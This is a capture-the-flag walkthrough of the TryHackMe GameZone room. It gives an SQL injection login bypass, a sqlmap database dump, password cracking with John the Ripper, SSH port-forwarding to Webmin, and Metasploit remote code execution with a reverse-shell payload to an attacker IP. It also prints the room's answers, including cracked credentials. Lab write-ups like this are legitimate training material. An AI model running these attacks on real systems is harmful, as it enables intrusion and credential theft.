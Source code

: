 # GameZone

#### Task 1

Completed all required steps like to start the machine and connect with tryhackme vpn. 

##### Question: What is the name of the large cartoon avatar holding a sniper on the forum?
##### Solution:

I entered the IP of target machine in browser and gun man shown in the page. I took it's screenshot and done google lens on it. I came to found it's name.
##### Answer: agent47

#### Task 2

##### Question: When you've logged in, what page do you get redirected to? 
##### Solution: 
I tried to log in with the given payload of sqli. And I left the 

```bash
' or 1=1-- -
```

We successfully logged in. 

![Alt text](../Screenshots/GameZone/Portal.png)

Now look into the browser search bar at the top.
##### Answer: portal.php

#### Task 3

Now at portal.php, there is a search option. I captured the request in burpsuite and saved it into request.txt so that I can use it into sqlmap.

```bash 
sqlmap -r request.txt --dump
```

And it dump the whole database because searchitem parameter is vulnerable. It gave me the database tables like post and users.

##### Question: In the users table, what is the hashed password?
##### Solution: 
![Alt text](../Screenshots/GameZone/hash.png)

##### Question: What was the username associated with the hashed password?
##### Solution: `agent47`(Can see in the above image).

##### Question: What was the other table name?
##### Solution: 
![Alt text](../Screenshots/GameZone/table_name.png)
##### Answer: post

##### Question: What is the de-hashed password?
##### Solution: 
Now it's time to crack the password. We are using johntheripper to crak it. Save the hashed password in hash.txt and run the following command:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```

![Alt text](../Screenshots/GameZone/de_hashed_password.png)

##### Answer: videogamer124

##### Question: What is the user flag?
##### Solution: 
Now you have username and password. Run the ssh command in order to remotely connect with the machine.

```bash
ssh agent47@target_ip
```

Run `cat user.txt` in the target machine and you will get the user flag.

![Alt text](../Screenshots/GameZone/user_flag.png)

#### Task 5

##### Question: How many TCP sockets are running?
#### Solution:
We need to check that how many tcp sockets are open at target machine. Run the following command on target:

```bash
ss -tulnp
```
![Alt text](../Screenshots/GameZone/tcp_sockets.png)

You can count the tcp sockets opened in above image. 
#### Answer: 5

##### Question: What is the name of the exposed CMS?
##### Solution: 
Run the following command in your terminal (terminal of attacker machine).

```bash
ssh -L 10000:localhost:10000 agent47@<target_ip>
```

You can notice that port 10000 is opened for ssh. You can confirm it using the command `ss -tulnp`. It will show that port 10000 is opened.

Now you can make a request in your browser (attacker machine) like following:

```
http://localhost:10000
```
![Alt text](../Screenshots/GameZone/webmin_login.png)

You can see that we have got the login page. 
##### Answer: webmin

##### Question: What is the CMS version?
##### Solution: 
You have the login and password. Try it. Boom! We logged into the webmin portal. 

![Alt text](../Screenshots/GameZone/cms_version.png)

##### Answer: 1.580

#### Task 6

##### Question: What is the root flag?
##### Solution:
As mentioned in the task, we need to use metasploit to exploit the cms version. I opened the Metasploit using the command `msfconsole` and type:
```bash
search 1.580
```
I have shown 2 exploits as shown in the picture:
![Alt text](../Screenshots/GameZone/available_exploits.png)

I selected 0th exploit as it allows us to execute the RCE. For that I used the command `use 0`. Now using the command `show options` I checked which parameters I need to set. I then set the following parameters.

```bash
set RHOSTS 127.0.0.1
```

```bash
set USERNAME agent47
```

```bash
set password videogamer124
```

```bash
set SSL false
```

Then run the command `show payloads` in order to check the available options for this exploit.
![Alt text](../Screenshots/GameZone/available_payloads.png)

Then I selected the payload `payload/cmd/unix/reverse` using the command:

```bash
set payload payload/cmd/unix/reverse
```
Now run `show options` commands then You will find that LHSOT needs to be set for payload. Run the command:

```bash
set LHOST <attacker_ip>
```

![Alt text](../Screenshots/GameZone/exploit_options.png)

In the above picture you can see the final parameters set. Now run the command `exploit`. 

Boom! We got the root access.

![Alt text](../Screenshots/GameZone/root_shell.png)

Now You can find the flag in /root/root.txt.
![Alt text](../Screenshots/GameZone/root_flag.png)